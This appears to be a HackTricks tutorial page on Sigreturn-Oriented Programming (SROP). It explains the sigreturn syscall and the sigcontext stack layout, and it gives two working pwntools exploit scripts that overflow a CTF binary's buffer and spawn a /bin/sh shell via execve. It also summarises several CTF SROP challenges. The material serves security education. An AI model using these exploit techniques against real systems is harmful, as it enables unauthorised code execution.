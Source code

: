 # SROP - Sigreturn-Oriented Programming

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**`Sigreturn`** is a special **syscall** that's primarily used to clean up after a signal handler has completed its execution. Signals are interruptions sent to a program by the operating system, often to indicate that some exceptional situation has occurred. When a program receives a signal, it temporarily pauses its current work to handle the signal with a **signal handler**, a special function designed to deal with signals.

After the signal handler finishes, the program needs to **resume its previous state** as if nothing happened. This is where **`sigreturn`** comes into play. It helps the program to **return from the signal handler** and restores the program's state by cleaning up the stack frame (the section of memory that stores function calls and local variables) that was used by the signal handler.

The interesting part is how **`sigreturn`** restores the program's state: it does so by storing **all the CPU's register values on the stack.** When the signal is no longer blocked, **`sigreturn` pops these values off the stack**, effectively resetting the CPU's registers to their state before the signal was handled. This includes the stack pointer register (RSP), which points to the current top of the stack.

> [!CAUTION]
> Calling the syscall **`sigreturn`** from a ROP chain and **adding the registry values** we would like it to load in the **stack** it's possible to **control** all the register values and therefore **call** for example the syscall `execve` with `/bin/sh`.

Note how this would be a **type of Ret2syscall** that makes much easier to control params to call other Ret2syscalls:

{{#ref}}
../rop-syscall-execv/
{{#endref}}

If you are curious this is the **sigcontext structure** stored in the stack to later recover the values (diagram from [**here**](https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html)):

```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```

For a better explanation check also:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Example

You can [**find an example here**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) where the call to signeturn is constructed via ROP (putting in rxa the value `0xf`), although this is the final exploit from there:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Check also the [**exploit from here**](https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html) where the binary was already calling `sigreturn` and therefore it's not needed to build that with a **ROP**:

```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```

## Other Examples & References

- [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
- [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
- [https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html)
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [**ret2syscall**](../rop-syscall-execv/) via a **sigreturn** structure and read the flag which is inside the memory of the binary.
- [https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html)
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [**ret2syscall**](../rop-syscall-execv/) via a **sigreturn** structure (the binary has the string `/bin/sh`).
- [https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html)
  - 64 bits, no relro, no canary, nx, no pie. Simple buffer overflow abusing `gets` function with lack of gadgets that performs a [**ret2syscall**](../rop-syscall-execv/). The ROP chain writes `/bin/sh` in the `.bss` by calling gets again, it abuses the **`alarm`** function to set eax to `0xf` to call a **SROP** and execute a shell.
- [https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html)
  - 64 bits assembly program, no relro, no canary, nx, no pie. The flow allows to write in the stack, control several registers, and call a syscall and then it calls `exit`. The selected syscall is a `sigreturn` that will set registries and move `eip` to call a previous syscall instruction and run `memprotect` to set the binary space to `rwx` and set the ESP in the binary space. Following the flow, the program will call read intro ESP again, but in this case ESP will be pointing to the next intruction so passing a shellcode will write it as the next instruction and execute it.
- [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection)
  - SROP is used to give execution privileges (memprotect) to the place where a shellcode was placed.

{{#include ../../../banners/hacktricks-training.md}}
